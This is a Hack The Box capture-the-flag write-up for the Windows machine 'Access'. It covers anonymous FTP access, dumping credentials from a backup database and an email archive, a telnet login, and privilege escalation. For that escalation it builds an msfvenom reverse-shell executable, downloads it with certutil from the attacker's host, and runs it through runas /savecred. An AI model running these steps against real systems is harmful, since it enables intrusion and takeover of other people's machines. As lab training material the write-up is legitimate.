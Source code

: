 ```yaml
---
title: "HTB : Access"
permalink: /writeups/access
location: default
---
```


# HTB Access

**Machine Information**

	IP : 10.10.10.98
	OS : Windows

### Reconnaissance

**Rustscan**

Start by running a port scan using `rustscan`.

```
rustscan -a 10.10.10.98 -- -sC -sV
```

This should reveal three open ports: `21`, `23`, and `80`.

```
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
| ftp-syst: 
|_  SYST: Windows_NT
23/tcp open  telnet? syn-ack
80/tcp open  http    syn-ack Microsoft IIS httpd 7.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: MegaCorp
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

### Getting a Foothold

**FTP**

An FTP server is running on port 21 and we can sign in as an anonymous user.

```
ftp 10.10.10.98
```

After exploring the `Backups` and `Engineer` directory we find two files that we can download. `Access Control.zip` and `backup.mdb`.

```
ftp> cd Backups
250 CWD command successful.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-23-18  09:16PM              5652480 backup.mdb

ftp> cd Engineer
250 CWD command successful.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-24-18  01:16AM                10870 Access Control.zip
```

Download both of these files from the FTP server. If you are having issues downloading files try turning passive mode off and changing to binary mode.

```
ftp> passive off
Passive mode: off; fallback to active mode: off.
ftp> binary
200 Type set to I.
```

**MDBTools**

The file `Access Control.zip` is password protected so we can move on. For accessing the `backup.mdb` file I used `mdb-tables` which can be installed with the following command:

```
sudo apt install mdbtools
```

Use `mdb-tables` to dump the table information.

```
mdb-tables backup.mdb
```

From the output there is a table called `auth_user` that could be useful. Dumping the contents of the table reveals some credentials.

```
mdb-json backup.mdb auth_user
```

```json
{"id":25,"username":"admin","password":"admin","Status":1,"last_login":"08/23/18 21:11:47","RoleID":26}
{"id":27,"username":"engineer","password":"REDACTED","Status":1,"last_login":"08/23/18 21:13:36","RoleID":26}
{"id":28,"username":"backup_admin","password":"admin","Status":1,"last_login":"08/23/18 21:14:02","RoleID":26}
```

Use the user credentials for `Engineer` to extract the `Access Control.zip` archive. This will reveal a file called `Access Control.pst` which can be read using the tool `readpst`. To install this use the following command:

```
sudo apt install pst-utils
```

Running this tool on the `Access Control.pst`file will create a new file called `Access Control.mbox` which is an email.

```
readpst 'Access Control.pst'  
```

Open this email to find the credentials for the `security` account.

```
...
The password for the “security” account has been changed to 4Cc3ssC0ntr0ller.  Please ensure this is passed on to your engineers.
...
```

**Telnet**

We can try to login into `telnet` using the credentials for the `security` user.

```
telnet -l security 10.10.10.98
```

Success!

```
*===============================================================
Microsoft Telnet Server.
*===============================================================
C:\Users\security>whoami
access\security
```

The user flag can be found in the following directory:

```
C:\Users\security\Desktop\user.txt
```

### Privilege Escalation

**Stored Credentials**

During our initial enumeration we find stored credentials for the `Administrator` account.

```
cmdkey /list
```

```
Currently stored credentials:

    Target: Domain:interactive=ACCESS\Administrator
    Type: Domain Password
    User: ACCESS\Administrator
```

We can impersonate the `Administrator` using their stored credentials to gain access to their account. Create a reverse shell executable using `msfvenom`.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=9001 -f exe > shelly.exe
```

Upload the payload to the target machine.

```
python -m http.server 80
```

```
certutil -urlcache -split -f http://10.10.14.4/shelly.exe shelly.exe
```

Start a `netcat` listener on our attack machine. Once listening we can run this executable as the `Administrator` user with the `runas` command to gain a shell with elevated privileges.

```
rlwrap nc -nvlp 9001
```

```
runas /savecred /user:ACCESS\Administrator "C:\Users\security\shelly.exe"
```

Success!

```
C:\Windows\system32>whoami
access\administrator
```

The root flag can be found in the following directory:

```
C:\Users\Administrator\Desktop\root.txt
```
